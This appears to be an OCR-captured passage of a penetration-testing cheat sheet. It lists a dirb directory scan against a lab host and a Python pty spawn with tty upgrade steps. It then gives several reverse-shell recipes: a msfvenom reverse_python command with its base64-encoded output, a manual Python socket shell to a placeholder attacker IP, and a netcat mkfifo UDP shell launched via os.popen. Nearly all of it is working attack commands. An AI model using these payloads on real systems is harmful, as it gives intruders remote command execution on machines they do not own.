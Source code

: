
shortcuts when the tool is running :
n: stop scanning the current directory and switch to the next one.
q: stop the current scan and save the state.
r: remaining scan stats.


dirb http://192.168.1.215/mutillidae  /usr/share/dirb/wordlists/common.txt






127) spawn a tty using bash
python -c 'import pty;pty.spawn("/bin/bash")'


upgrade to a rich tty


More Fun [Hooot]
1)Background it with Ctrl Z


2) stty raw -echo


3) bring it back and now you have a more rich tty








128) python reverse shell with msfvenom
msfvenom -p cmd/unix/reverse_python LHOST=192.168.2.3 LPORT=7777 -f raw
manual
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'




129) python reverse shell encoded base64
==============


root@kali:~# msfvenom -p cmd/unix/reverse_python LHOST=192.168.2.3 LPORT=7777 -f raw
No platform was selected, choosing Msf::Module::Platform::Unix from the payload
No Arch selected, selecting Arch: cmd from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 477 bytes
python -c "exec('aW1wb3J0IHNvY2tldCAgICAgLCAgICBzdWJwcm9jZXNzICAgICAsICAgIG9zICAgICA7aG9zdD0iMTkyLjE2OC4yLjMiICAgICA7cG9ydD03Nzc3ICAgICA7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVUICAgICAsICAgIHNvY2tldC5TT0NLX1NUUkVBTSkgICAgIDtzLmNvbm5lY3QoKGhvc3QgICAgICwgICAgcG9ydCkpICAgICA7b3MuZHVwMihzLmZpbGVubygpICAgICAsICAgIDApICAgICA7b3MuZHVwMihzLmZpbGVubygpICAgICAsICAgIDEpICAgICA7b3MuZHVwMihzLmZpbGVubygpICAgICAsICAgIDIpICAgICA7cD1zdWJwcm9jZXNzLmNhbGwoIi9iaW4vYmFzaCIp'.decode('base64'))"




** normal python reverse shell with udp
import os
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u <LAB IP> <PORT> >/tmp/f &").read()
==============
